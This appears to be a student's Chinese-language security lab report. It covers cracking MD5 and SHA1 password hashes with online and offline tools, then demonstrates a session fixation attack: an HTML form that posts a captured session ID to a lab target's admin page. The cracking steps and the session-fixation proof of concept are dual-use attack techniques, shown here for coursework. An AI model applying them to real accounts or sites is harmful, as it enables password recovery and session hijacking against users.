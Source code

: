 













## 7.2 加密口令值破解
- 接入互联网, 访问在线破解网站 cmd5, 破解指定的 MD5 和 SHA1 加密口
令值.
- 安装 MD5 密码暴力破解软件 MD5Crack, 并破解指定的 MD5 加密口令值.
- 弹出命令窗口运行 Bulk SHA1 破解指定 SHA1 加密口令值.
- 将所有破解结果截图, 并写入实验报告中

预计算一个 fuckyou 的哈希
![img:fuckyou](https://i.imgur.com/4kq9uVK.png)
- md5: 596a96cc7bf9108cd896f33c44aedc8a
- sha1: dd2edb87ea9eb7a32fd4057276d3a1fab861c1d5

CMD5 进行 MD5 破解
![img:cmd5](https://i.imgur.com/k50X7zT.png)

md5crack 破解  和 BulkSHA1 破解大同小异, 只是工具
![b](https://i.imgur.com/Oz4O82Z.png)
![a](https://i.imgur.com/ErRXfyb.png)

## 7.3 登录安全漏洞原理以及演示


### 会话攻击漏洞
管理员登陆(这里有个坑就是这个链接会触发 js 请求, 要保证靶机必须能够连网, 默认是设置了静态 IP, 改成 DHCP)
![img:admin](https://i.imgur.com/P4D3op2.png)

添加用户, 并登录

![img:new-user](https://i.imgur.com/YXmd8m0.png)
![img:login](https://i.imgur.com/gAX1AdZ.png)

很容易就能找到 sessionid
![img:sessionid](https://i.imgur.com/jTcCiWv.png)
> klvg1b04i5u2ep7sqss3p7egi5




构造一个 html 文件
```html
<html>
    <body>
    <form action="http://www.huihuaguding.com/admin/" method="post">
    <input type="hidden" name="session_id"
    value="klvg1b04i5u2ep7sqss3p7egi5">
    <input type="submit" >
    </form>
    </body>
</html>
```
